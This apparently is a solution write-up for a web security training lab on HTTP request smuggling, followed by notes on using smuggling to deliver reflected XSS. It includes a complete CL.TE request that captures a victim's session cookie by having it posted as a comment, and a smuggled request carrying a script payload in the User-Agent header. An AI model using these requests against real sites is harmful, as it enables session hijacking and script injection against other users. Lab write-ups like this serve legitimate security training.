 ### PRACTITIONER Lab: Exploiting HTTP request smuggling to capture other users' requests
**Very important** lab's description:
The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

Solution:
First we figure out if it's CL.TE or TE.CL via timing technique and later via differential responses (just to confirm what timing technique found)
Eventually we see that there is CL.TE

To solve the lab we craft an attack request second part of which posts a comment on a page, but our smuggeled req does not post comment right away, it posts that comment as soon as the admin user makes a request to the server, and our poisoned backend server will actually post the admin's cookie and other request info as a blog comment

The trickiest thing is to figure out the `Content-Length` of the smuggled (second part of our req) req because it must not be longer than the req of the victim user, otherwise we'll get timeouts

So to solve the lab we send the following req:
```bash
POST / HTTP/1.1
Host: 0a0200e004ff76a4802d80e700f80003.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: 0a0200e004ff76a4802d80e700f80003.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 803
Cookie: session=nAkpyucPUGofhOyEDpeS71aJYlgMWsgC

csrf=ZFnFy70zJnQ6p2QNAKAUMkqEEBIDsQ8L&postId=6&name=ff&email=ff%40ff.com&website=http%3A%2F%2Fff.com&comment=
```

Once a victim makes a req, their cookie is posted in a new comment. (the victim makes a req after we make 2-3 requests)

### Using HTTP request smuggling to exploit reflected XSS
If an application is vulnerable to HTTP request smuggling and also contains reflected XSS, you can use a request smuggling attack to hit other users of the application. This approach is superior to normal exploitation of reflected XSS in two ways:
- It requires no interaction with victim users. You don't need to feed them a URL and wait for them to visit it. You just smuggle a request containing the XSS payload and the next user's request that is processed by the back-end server will be hit.
- It can be used to exploit XSS behavior in parts of the request that cannot be trivially controlled in a normal reflected XSS attack, such as HTTP request headers.

For example, suppose an application has a reflected XSS vulnerability in the User-Agent header. You can exploit this in a request smuggling attack as follows:
```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```
